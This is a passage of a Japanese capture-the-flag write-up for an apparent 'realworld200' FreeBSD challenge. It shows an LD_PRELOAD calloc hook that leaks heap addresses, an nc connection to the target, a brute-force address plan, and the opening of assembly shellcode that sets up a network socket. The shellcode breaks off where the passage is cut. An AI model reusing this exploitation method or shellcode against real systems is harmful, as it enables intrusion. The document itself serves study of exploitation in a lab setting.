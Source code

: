 　calloc関数をフックした状態で、プログラムを実行します。

-----  freebsd terminal
# gcc -shared -fPIC -o calloc_hook.so calloc_hook.c -dl
# setenv LD_PRELOAD ./calloc_hook.so
# chmod 755 realworld200-be2241fd5ac13d18c2360046dba7ed0e
# ./realworld200-be2241fd5ac13d18c2360046dba7ed0e
-----

　実行するとポート3344で接続待ち状態になるので、別のマシンからconnectしま
す。

-----  attack terminal
# nc 10.81.45.21 3344
-----

　connectすると、calloc関数が1024回呼び出されます。そして、関数フックによ
り、callocの戻り値が出力されます。

-----  freebsd terminal
# ./realworld200-be2241fd5ac13d18c2360046dba7ed0e
0804C000
0804C080
0804C100
0804C180
.....
......
0806BE80
0806BF00
0806BF80
08053800
-----

　この中から好きなアドレスを選び、決め打ちします。決め打ちにしたとしても、
1024回試行すれば、1回は成功する確率なので、ここはブルートフォースで攻略し
ます。

　次にshellcodeの問題ですが、今回はサイズが膨大にあるわけではないため、そ
の点を若干考慮して作成します。

-----  shellcode.s
.globl main

main:
        push       $0x61
        pop        %eax
        cdq
        push       %edx
        inc        %edx
        push       %edx
        inc        %edx
        push       %edx
        push       $0x152D5156
        int        $0x80
        push       $0x611E0210
        mov        %esp, %ecx
        push       $0x10